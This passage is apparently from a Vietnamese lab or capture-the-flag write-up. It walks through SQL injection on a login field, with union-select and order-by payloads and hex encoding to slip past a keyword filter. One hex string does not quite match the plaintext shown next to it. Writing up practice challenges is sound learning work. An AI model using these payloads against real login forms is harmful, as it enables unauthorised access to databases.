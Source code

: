   ![1](img/49/Screenshot%20from%202023-01-31%2015-41-09.png)

- Ta thử tìm số bảng bằng payload: `login='union select 1' order by 10 -- - -- -`

  ![1](img/49/Screenshot%20from%202023-01-31%2015-41-45.png)

- Vì key order by đã bị FILTER nên ta sẽ dùng mã hex để bypass. 

`login='union select 1' order by 3 -- - -- -` => `login='union select 1' 0x276f726465722062792033202d2d202d -- -`

- Thử từng cái thì tìm được có 2 cột:

```
Unknown column '3' in 'order clause'
```

- Tiếp đến ta tìm tên DB. Tham khảo cheat sheet:
### https://portswigger.net/web-security/sql-injection/cheat-sheet

```
login='union select 'union select NULL,@@version-- - -- -
=> login='union select 0x27756e696f6e2073656c65637420404076657273696f6e2e4e554c4c2d2d202d -- -
```
